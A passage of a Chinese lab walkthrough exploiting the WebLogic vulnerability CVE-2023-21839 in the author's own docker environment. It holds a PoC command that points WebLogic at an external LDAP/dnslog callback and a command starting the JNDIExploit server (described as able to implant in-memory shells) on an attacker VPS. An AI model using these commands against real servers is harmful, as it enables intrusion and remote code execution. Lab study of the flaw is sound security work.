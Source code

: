 

2.攻击机访问http://1.xxx.xxx.172:7001/,进入后台http://1.xxx.xxx.172:7001/console/，环境搭建成功

![docker搭建](https://pb-1307852621.cos.ap-chengdu.myqcloud.com/typora/202304151755886.png)





<img src="https://pb-1307852621.cos.ap-chengdu.myqcloud.com/typora/202402131803357.png" alt="weblogic环境搭建" style="zoom:50%;" />



### poc1

https://github.com/4ra1n/CVE-2023-21839

#### 漏洞探测

查看DNSlog网站访问记录即可判断漏洞是否存在。

攻击机运行poc

【内网docker靶机地址：172.17.0.1】

```
./poc2 -ip 172.17.0.1 -port 7001 -ldap ldap://wpaat8.dnslog.cn
```

<img src="https://pb-1307852621.cos.ap-chengdu.myqcloud.com/typora/202304161716296.png" alt="运行poc" style="zoom:50%;" />





dnslog存在回显，说明存在漏洞：

<img src="https://pb-1307852621.cos.ap-chengdu.myqcloud.com/typora/202402131805506.png" alt="image-20240213180551455" style="zoom: 33%;" />





#### 本地利用拿shell

目标机：vps上本地docker搭建的weblogic环境，ip：172.17.0.1

攻击机：vps：1.xxx.xxx.172



搭建恶意jndiserver，位置：vps

> 一款用于 `JNDI注入` 利用的工具，大量参考/引用了 `Rogue JNDI` 项目的代码，支持直接`植入内存shell`，并集成了常见的`bypass 高版本JDK`的方式，适用于与自动化工具配合使用。
>
> https://github.com/WhiteHSBG/JNDIExploit
>

vps运行jdni server，公网开启rmi服务

```
java -jar JNDIExploit-1.4-SNAPSHOT.jar -i 1.xxx.xxx.172
```
